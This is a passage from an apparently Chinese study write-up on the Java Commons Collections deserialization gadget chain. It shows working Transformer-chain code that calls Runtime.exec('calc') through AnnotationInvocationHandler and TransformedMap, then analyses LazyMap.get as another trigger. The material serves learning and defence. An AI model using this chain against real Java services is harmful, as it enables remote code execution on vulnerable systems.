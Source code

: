 ##### 实现

```java
Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer Chainedtransform = new ChainedTransformer(transformers);


        HashMap<Object,Object> map=new HashMap<Object, Object>() ;
        map.put("value","value");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, Chainedtransform);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, transformedMap);
        SerializeTest.serialize(o);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");
```





#### LazyMap

lazyMap中的`get`方法也调用了`transform`方法,可以使用其替代`TransformedMap.checkSetValue`

分析一下lazyMap中的`get`方法的使用

LazyMap顾名思义,就是在创建map的时候不创建key,再get的时候才创建key,并且LazyMap是public的

```java
 public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
```

使用上述"构造方法"创建LazyMap,接着先调用get试试,分析其只有没有key的map才能进入if循环中调用`transform`

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```
